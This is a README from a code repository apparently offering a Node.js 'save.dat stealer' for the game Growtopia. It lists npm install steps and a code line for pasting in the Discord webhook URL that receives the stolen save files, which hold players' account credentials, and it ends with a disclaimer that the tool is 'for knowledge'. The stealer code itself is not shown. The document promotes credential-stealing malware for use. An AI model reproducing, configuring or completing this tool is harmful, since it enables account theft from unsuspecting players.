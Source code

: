 # Node-Save.dat-stealer
Super simple growtopia save.dat stealer written by node js

Installation
=======

- ```npm install username```
- ```npm install request```
- ```npm install discord-webhook-node```



editing webhook url
===============
```js
const client = new Webhook('your webhook url');//your webhook url
```

![alt text](https://media.discordapp.net/attachments/866632360165376060/878156135037796392/unknown.png?width=493&height=473)

reminder
===============

I am not responsible for your action, the purpose of this creation is for knowledge
